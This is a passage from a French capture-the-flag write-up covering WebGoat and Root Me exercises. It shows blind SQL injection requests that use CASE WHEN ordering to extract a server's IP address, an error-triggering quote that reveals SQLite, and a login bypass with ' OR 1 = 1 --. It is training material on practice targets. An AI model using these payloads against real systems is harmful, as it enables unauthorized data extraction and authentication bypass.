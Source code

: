 ```
/servers?column=case when(select ip from servers where hostname = 'webgoat-prd') > '100' then id else ip end
# True
```

```
/servers?column=case when(select ip from servers where hostname = 'webgoat-prd') > '106' then id else ip end
# False
```

```
/servers?column=case when(select ip from servers where hostname = 'webgoat-prd') > '103' then id else ip end
# True
```

```
/servers?column=case when(select ip from servers where hostname = 'webgoat-prd') > '104.130.219.201' then id else ip end
# True
```

La bonne IP est donc 104.130.219.201.

## Root Me > SQL injection - En aveugle

### Identification du champs

Pour commencer, essayons de voir a quel endroit l'injection peut se faire.
Pour se faire, je vais essayer de générer une erreur sur la base de donnée. Je vais donc entrer '"' dans le champs login et un caractère au hasard dans le champs password.

Voici le retour de l'erreur générée : 

```
**Warning**: SQLite3::query(): Unable to prepare statement: 1, near ""' and password='"": syntax error in **/challenge/web-serveur/ch10/index.php** on line **39**
```

Nous savons donc que ce champs est vulnérable à l'injection SQL. Nous savons également que le moteur de base de donnée utilisée est SQLite3. Et le nom de la colonne 'password'

### Compréhension de la requête envoyée
Je tente une injection de base 

champs username : ' OR 1 = 1 --
champs password : fjofz

le retour de cette tentative : 

```
Welcome back user1 !

Your informations :

- username : user1
```
